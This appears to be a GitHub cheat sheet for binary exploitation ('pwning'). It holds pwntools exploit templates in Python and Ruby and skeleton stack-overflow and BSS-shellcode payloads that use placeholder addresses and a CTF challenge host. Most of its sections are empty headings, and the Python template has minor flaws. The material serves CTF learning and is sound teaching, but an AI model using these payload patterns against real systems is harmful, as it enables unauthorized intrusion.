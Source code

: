 # Native Application Exploitation aka Binary Exploitation aka Pwning
Command Line cheat sheet for binary exploitation


* [Templates](#templates)
* MacOS
* Linux
	* Stack overflow
	* Format string
	* Heap
	* FILE
	* Integer overflow
	* Race conditions
	* Kernel
	* ARM
* Windows
	* Stack
	* Kernel
* [Browser](browser.md)

<h2 id="templates">Exploit template</h2>

<h4>Python</h4>

	#!/usr/bin/env python
	
	from pwn import *

	BINARY = './vuln'
	HOST, PORT = '8.8.8.8', 1337

	elf = ELF(BINARY)
	libc = ELF('./libc.so.6')

	context.arch = 'amd64'
	context.terminal = ['tmux', 'new-window']

	printf = elf.plt['printf']
	free_got = elf.got['free']
	malloc_hook = libc.sym['__malloc_hook']

	def start():
		if not args.REMOTE:
			print "LOCAL PROCESS"
			return process(BINARY)
		else:
			print "REMOTE PROCESS"
			return remote(HOST, PORT)

	
	def sample_function(data):
		p.sendlineafter('>> ', '1')
		p.sendafter(':\n', data)
	
	
	while True:
		p = start()	

	p.interactive()

<h4>Ruby</h4>
	
	gem install pwntools
	
	require 'pwn'
	
	context.arch = 'i386'
	context.log_level = :debug
	z = Sock.new 'chall.pwnable.tw', 10000

	z.recvuntil "Let's start the CTF:"
	z.send p64(0x1337).rjust(0x18, 'A')
	

	z.interact

	


<h2 id="linux">Linux</h2>

<h3 id="stack">Stack Exploitation</h3>
	
<h4>Stack overflow</h4>

	buffer = 'A' * 1337
	rip = p64(0x1337) # Address of shellcode
	payload = "SHELLCODE"

	exploit = buffer + rip
	

<h4>Shellcode in bss section</h4>

	buffer = 'A' * 1337
	gets = elf.plt['gets']
	bss = elf.bss(0x20) # BSS at 0x20 bytes offset
	pop_rdi = p64(0x1337)

	payload = buffer + pop_rdi + bss + gets + bss

<h4>Ret2libc</h4>

<h4>ROP syscall</h4>
		
<h4>ROP</h4>

<h3>Format String</h3>

<h3>Heap</h3>

<h3>FILE</h3>

<h3>Integers</h3>

<h3>Race Conditions</h3>

<h3>Kernel</h3>
